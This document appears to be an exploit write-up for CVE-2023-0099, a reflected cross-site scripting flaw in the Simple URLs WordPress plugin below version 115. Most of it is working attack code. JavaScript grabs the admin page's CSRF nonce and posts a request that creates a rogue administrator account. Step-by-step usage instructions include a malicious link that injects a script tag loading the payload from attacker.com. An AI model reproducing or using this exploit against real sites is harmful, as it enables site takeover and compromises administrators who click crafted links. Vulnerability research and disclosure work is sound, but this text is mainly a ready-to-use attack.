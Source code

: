 # CVE-2023-0099-exploit

### Exploit Title: simple urls < 115 - Reflected XSS
### Google Dork: 
### Exploit Author: AmirZargham
### Vendor Homepage: https://getlasso.co/
### Software Link: https://wordpress.org/plugins/simple-urls/
### Version: < 115
### Tested on: firefox,chrome
### CVE: CVE-2023-0099
### CWE: CWE-79
### Platform: MULTIPLE
### Type: WebApps


Description
The Simple URLs WordPress plugin before 115 does not sanitise and escape some parameters before outputting them back in some pages, leading to Reflected Cross-Site Scripting which could be used against high privilege users such as admin.


Exploit:
```javascript
function getCSRFToken(url, csrf_token_id, func){
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function(){
if(this.readyState == 4 && this.status == 200){
var parser = new DOMParser();
var htmlDocument = parser.parseFromString(this.responseText, "text/html");
var token = htmlDocument.getElementById(csrf_token_id).value;
func(token);
}

};
xhr.open("GET", url, true);
xhr.withCredentials = true;
xhr.send();

}

function addAdmin(token){
var xhr = new XMLHttpRequest();
xhr.open("POST","http://vulnerable.site/wp-admin/user-new.php", true);
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("action=createuser&_wpnonce_create-user=" + token + "&_wp_http_referer=%2Fwp-admin%2Fuser-new.php&user_login=hack-admin&email=hack@gmail.com&first_name=&last_name=&url=&pass1=1234&pass2=1234&pw_weak=on&send_user_notification=1&role=administrator&createuser=Add+New+User");
}

getCSRFToken("http://vulnerable.site/wp-admin/user-new.php", "_wpnonce_create-user", addAdmin);
```

Usage Info:
1. save exploit code to server as javascript file.
2. in exploit file change value:
    * user_login: Arbitrary username
    * pass1: Arbitrary password
    * pass2: Arbitrary password
    * email: Arbitrary email
3. now send malicious link to victim: `https://vulnerable.com/wp-content/plugins/simple-urls/admin/assets/js/import-js.php?search=</script><script src="https://attacker.com/exploit.js"></script>`
4. know Admin user was created, go to /wp-admin or etc, and login to wordpress panel.


#### Published in: [exploit-db](https://www.exploit-db.com/search?e_author=amirzargham).
#### Published in: [0day.today](https://0day.today/author/46852).
#### Published in: [packet storm](https://packetstormsecurity.com/files/author/16843).

